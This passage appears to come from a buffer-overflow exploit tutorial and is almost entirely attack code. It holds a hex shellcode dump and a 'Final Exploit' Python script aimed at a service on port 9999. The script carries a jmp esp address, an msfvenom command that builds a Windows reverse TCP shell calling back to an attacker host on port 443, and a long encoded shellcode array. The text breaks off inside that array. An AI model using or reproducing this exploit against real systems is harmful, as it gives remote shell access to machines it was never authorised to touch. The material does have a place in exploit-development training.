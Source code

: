```terminal_session
"\x6e\x43\x66\x50\x46\x39\x6f\x46\x50\x63\x58\x55\x58\x6b\x37"
"\x45\x4d\x63\x50\x4b\x4f\x4e\x35\x6f\x4b\x4b\x50\x47\x6d\x35"
"\x7a\x34\x4a\x62\x48\x6c\x66\x4c\x55\x6d\x6d\x6d\x4d\x4b\x4f"
"\x6e\x35\x35\x6c\x76\x66\x33\x4c\x46\x6a\x4b\x30\x49\x6b\x69"
"\x70\x62\x55\x76\x65\x4d\x6b\x53\x77\x34\x53\x43\x42\x42\x4f"
"\x33\x5a\x45\x50\x76\x33\x4b\x4f\x4e\x35\x41\x41";
```

## Final Exploit

Our exploit code now looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

#jmp esp: 62501203

host = "192.168.1.201"
port = 9999

# msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.205 LPORT=443 -f c -b '\x00' -e x86/alpha_mixed BufferRegister=ESP
# 702 bytes
shellcode = ("\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b"
"\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
"\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x6a\x48\x6d\x52\x33\x30"
"\x55\x50\x77\x70\x73\x50\x6b\x39\x5a\x45\x75\x61\x69\x50\x63"
"\x54\x4e\x6b\x42\x70\x56\x50\x4e\x6b\x70\x52\x64\x4c\x4e\x6b"
"\x72\x72\x54\x54\x4c\x4b\x34\x32\x44\x68\x54\x4f\x6f\x47\x32"
"\x6a\x36\x46\x36\x51\x39\x6f\x6e\x4c\x77\x4c\x55\x31\x53\x4c"
"\x47\x72\x76\x4c\x31\x30\x39\x51\x38\x4f\x76\x6d\x36\x61\x48"
"\x47\x79\x72\x6b\x42\x42\x72\x66\x37\x6e\x6b\x72\x72\x34\x50"
"\x4c\x4b\x33\x7a\x37\x4c\x6e\x6b\x62\x6c\x57\x61\x63\x48\x4b"
"\x53\x63\x78\x53\x31\x5a\x71\x46\x31\x6e\x6b\x36\x39\x55\x70"
"\x73\x31\x4a\x73\x4e\x6b\x30\x49\x52\x38\x58\x63\x66\x5a\x30"
"\x49\x6c\x4b\x36\x54\x4c\x4b\x45\x51\x49\x46\x36\x51\x39\x6f"
"\x4e\x4c\x6f\x31\x68\x4f\x74\x4d\x46\x61\x38\x47\x74\x78\x4b"
"\x50\x52\x55\x4c\x36\x73\x33\x61\x6d\x49\x68\x77\x4b\x73\x4d"
"\x77\x54\x70\x75\x5a\x44\x73\x68\x4e\x6b\x72\x78\x31\x34\x73"
"\x31\x79\x43\x72\x46\x6e\x6b\x54\x4c\x62\x6b\x4c\x4b\x33\x68"
"\x35\x4c\x73\x31\x68\x53\x6c\x4b\x43\x34\x6e\x6b\x55\x51\x68"
"\x50\x6b\x39\x77\x34\x74\x64\x36\x44\x61\x4b\x73\x6b\x33\x51"
"\x71\x49\x32\x7a\x52\x71\x69\x6f\x49\x70\x31\x4f\x63\x6f\x43"
"\x6a\x4c\x4b\x77\x62\x68\x6b\x4c\x4d\x53\x6d\x45\x38\x70\x33"
"\x65\x62\x73\x30\x75\x50\x71\x78\x54\x37\x31\x63\x64\x72\x51"
"\x4f\x33\x64\x75\x38\x42\x6c\x42\x57\x67\x56\x44\x47\x4b\x4f"
"\x79\x45\x4d\x68\x4e\x70\x33\x31\x73\x30\x77\x70\x47\x59\x4f"
"\x34\x51\x44\x30\x50\x73\x58\x55\x79\x6b\x30\x32\x4b\x73\x30"
"\x79\x6f\x39\x45\x50\x50\x76\x30\x76\x30\x70\x50\x47\x30\x36"
"\x30\x63\x70\x50\x50\x51\x78\x7a\x4a\x36\x6f\x79\x4f\x4b\x50"
"\x4b\x4f\x38\x55\x6f\x67\x50\x6a\x53\x35\x72\x48\x6f\x30\x6d"
"\x78\x66\x61\x68\x4d\x52\x48\x64\x42\x47\x70\x47\x71\x4f\x4b"
"\x4c\x49\x48\x66\x31\x7a\x42\x30\x61\x46\x36\x37\x61\x78\x4e"
"\x79\x4e\x45\x50\x74\x63\x51\x4b\x4f\x7a\x75\x6c\x45\x39\x50"
"\x50\x74\x56\x6c\x69\x6f\x32\x6e\x53\x38\x51\x65\x68\x6c\x35"
"\x38\x4a\x50\x6d\x65\x49\x32\x31\x46\x79\x6f\x6a\x75\x65\x38"
"\x45\x33\x62\x4d\x35\x34\x43\x30\x6c\x49\x6a\x43\x71\x47\x63"
"\x67\x73\x67\x56\x51\x4b\x46\x43\x5a\x32\x32\x51\x49\x43\x66"
"\x68\x62\x6b\x4d\x53\x56\x6a\x67\x71\x54\x74\x64\x45\x6c\x76"
```